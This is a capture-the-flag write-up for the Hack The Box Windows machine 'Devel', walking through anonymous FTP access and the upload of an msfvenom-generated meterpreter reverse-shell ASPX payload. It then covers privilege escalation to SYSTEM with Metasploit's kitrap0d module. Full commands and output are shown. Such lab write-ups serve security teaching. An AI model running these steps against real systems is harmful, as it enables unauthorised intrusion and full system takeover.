



---
search:
  exclude: true
---
# Devel Writeup

## Introduction :

Devel was an easy Windows box released back in March 2017. 

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      **λ nihilist [~] → nmap -sC -sV 10.10.10.5**
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-10 11:42 CET
      Nmap scan report for 10.10.10.5
      Host is up (0.039s latency).
      Not shown: 998 filtered ports
      PORT   STATE SERVICE VERSION
      21/tcp open  ftp     Microsoft ftpd
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      | 03-18-17  01:06AM       <****DIR>          aspnet_client
      | 03-17-17  04:37PM                  689 iisstart.htm
      |_03-17-17  04:37PM               184946 welcome.png
      | ftp-syst:
      |_  SYST: Windows_NT
      80/tcp open  http    Microsoft IIS httpd 7.5
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/7.5
      |_http-title: IIS7
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds

We see that port 21 is opened, and giving us a ftp service that allows anonymous connections to work with.

## **Part 2 : Getting User Access**

The first step is to check if we can download and upload files on the FTP service since it should allow us to be connected as an anonymous user.
    
    
      **λ nihilist [~] → ftp 10.10.10.5**
      Connected to 10.10.10.5.
      220 Microsoft FTP Service
      Name (10.10.10.5:nihilist): anonymous
      331 Anonymous access allowed, send identity (e-mail name) as password.
      Password:
      230 User logged in.
      Remote system type is Windows_NT.
    
      **ftp> dir**
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      03-18-17  01:06AM       **IR>          aspnet_client
      03-17-17  04:37PM                  689 iisstart.htm
      03-17-17  04:37PM               184946 welcome.png
      226 Transfer complete.
    

Now let's see if we can download files and upload files. 
    
    
      **ftp> dir**
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      03-18-17  01:06AM       **R>          aspnet_client
      03-17-17  04:37PM                  689 iisstart.htm
      03-17-17  04:37PM               184946 welcome.png
      226 Transfer complete.
    
      **ftp> get welcome.png**
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      WARNING! 820 bare linefeeds received in ASCII mode
      File may not have transferred correctly.
      226 Transfer complete.
      184946 bytes received in 0.285 seconds (634 kbytes/s)
    
      **ftp> put nihilist.html**
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      226 Transfer complete.
      16 bytes sent in 0.000144 seconds (109 kbytes/s)
    

We have been able to download welcome.png, and upload nihilist.html, let's see if we can browse to our uploaded webpage.

As shown above, we have successfully uploaded our webpage, and browsed to it. now let's try to upload a reverse shell and browse to it.  To generate the payload named nihilist.aspx, we will be using msfvenom with the -p, LHOST, LPORT and -f flags.  We will be using our terminal with the according metasploit module to recieve the meterpreter connection.

_Terminal n°1:_
    
    
      **λ nihilist [~/_HTB/Devel] → msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=9001 -f aspx > nihilist.aspx**
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: x86 from the payload
      No encoder or badchars specified, outputting raw payload
      Payload size: 341 bytes
      Final size of aspx file: 2824 bytes
    
      **λ nihilist [~/_HTB/Devel] → msfconsole**
    
      **msf5 > use exploit/multi/handler**
    
      **msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp**
      payload => windows/meterpreter/reverse_tcp
    
      **msf5 exploit(multi/handler) > set LHOST 10.10.14.48**
      LHOST => 10.10.14.48
    
      **msf5 exploit(multi/handler) > set LPORT 9001**
      LPORT => 9001
    
      **msf5 exploit(multi/handler) > show options**
    
      Module options (exploit/multi/handler):
    
         Name  Current Setting  Required  Description
         ----  ---------------  --------  -----------
    
    
      Payload options (windows/meterpreter/reverse_tcp):
    
         Name      Current Setting  Required  Description
         ----      ---------------  --------  -----------
         EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
         LHOST     10.10.14.48      yes       The listen address (an interface may be specified)
         LPORT     9001             yes       The listen port
    
    
      Exploit target:
    
         Id  Name
         --  ----
         0   Wildcard Target
    
    

our first terminal is ready to recieve the connection, now we will upload the nihilist.aspx payload, and browse to it, and we'll see if we can get our meterpreter shell.

_Terminal n°2:_
    
    
      **λ nihilist [~/_HTB/Devel] → ftp 10.10.10.5**
    
      Connected to 10.10.10.5.
      220 Microsoft FTP Service
      Name (10.10.10.5:nihilist): anonymous
      331 Anonymous access allowed, send identity (e-mail name) as password.
      Password:
      230 User logged in.
      Remote system type is Windows_NT.
    
      **ftp> put nihilist.aspx**
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      226 Transfer complete.
      2860 bytes sent in 0.000315 seconds (8.66 Mbytes/s)
      ftp>
    
    

 _Terminal n°1:_
    
    
      **msf5 exploit(multi/handler) > exploit**
    
      [*] Started reverse TCP handler on 10.10.14.48:9001
      [*] Sending stage (180291 bytes) to 10.10.10.5
      [*] Meterpreter session 1 opened (10.10.14.48:9001 -> 10.10.10.5:49158) at 2019-11-10 13:55:18 +0100
    
      **meterpreter > getuid**
      Server username: IIS APPPOOL\Web
    
      **meterpreter > background**
      [*] Backgrounding session 1...
    
    

We recieved our meterpreter session back, now we need to escalate privileges.  First of all we background our meterpreter session, so that we can use the ms10_015 exploit named kitrap0d
    
    
      **meterpreter > background**
      [*] Backgrounding session 1...
      **msf5 exploit(multi/handler) >**
    
      **msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d**
    
      **msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1**
      session => 1
    
      **msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost 10.10.14.48**
      lhost => 10.10.14.48
    
      **msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 9002**
      lport => 9002
    
      **msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit**
    
      [*] Started reverse TCP handler on 192.168.0.23:9002
      [*] Launching notepad to host the exploit...
      [+] Process 3372 launched.
      [*] Reflectively injecting the exploit DLL into 3372...
      [*] Injecting exploit into 3372 ...
      [*] Exploit injected. Injecting payload into 3372...
      [*] Payload injected. Executing exploit...
      [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
      [*] Sending stage (179779 bytes) to 10.10.10.5
      [*] Meterpreter session 2 opened (10.10.14.48:9002 -> 10.10.10.5:49159) at 2019-11-10 14:04:56 -0500
    
      **meterpreter > getuid**
      Server username: NT AUTHORITY\SYSTEM
    

Our exploit worked! It returned with an elevated privileges shell. Now all that is left to do is grabbing the user and root flags.

## **Part 3 : The Root Access**

The user flag is located in C:\User\babis\Desktop  The root flag is located in C:\Users\Administrator\Desktop
    
    
    c:\Users\babis\Desktop>type user.txt
    type user.txt
    **XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX**
    
    c:\Users\Administrator\Desktop>type root.txt
    type root.txt
    **XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX**
    

And that's it ! we grabbed both the user and root flags. 

## **Conclusion**

Here we can see the progress graph :

